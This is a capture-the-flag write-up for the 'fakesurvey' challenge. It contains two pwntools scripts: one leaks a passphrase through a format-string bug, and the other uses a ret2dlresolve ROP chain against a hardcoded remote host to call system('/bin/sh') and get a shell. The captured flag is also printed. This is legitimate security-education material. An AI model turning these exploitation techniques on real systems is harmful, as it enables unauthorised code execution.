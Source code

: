 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
This challenge has two steps. In the first step we have to use `format string` vulnerability to leak the needed passPhrase. In second step we can use `return ro dl_reslove` technique.   
Here is the script used for the first step:    
```python
import pwn
import time

i = 1
l = []
while(i != 15):
	r = pwn.remote('185.235.41.205', 7050)
	p = "%" + str(i) + "$p"
	r.sendline(p)
	r.recvlines(21)
	adminPass = r.recvline().split(" ")[-1]
	print(adminPass)
	l.append(adminPass)
	i = i + 1
pl = []
for k in l:
	try:
		pl.append(pwn.p32(int(k, 16)))
	except Exception as e:
		pass
print("".join(pl))
```   
And for `return to dl_resove` I used `Ret2dlresolvePayload` class of `pwntools`:  
```python
from pwn import *
context.binary = elf = ELF('./fakesurvey')

rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

p = remote('185.235.41.205', 7050)
p.sendline("CPRSyRMOFa3FVIF")
p.sendline(fit({64+context.bytes*3: raw_rop, 200: dlresolve.payload}))
p.interactive()
```   
The flag:   
```
TMUCTF{m4yb3_y0u_u53d_7h3_574ck_4nd_r37urn3d_70_dl_r350lv3}
```  
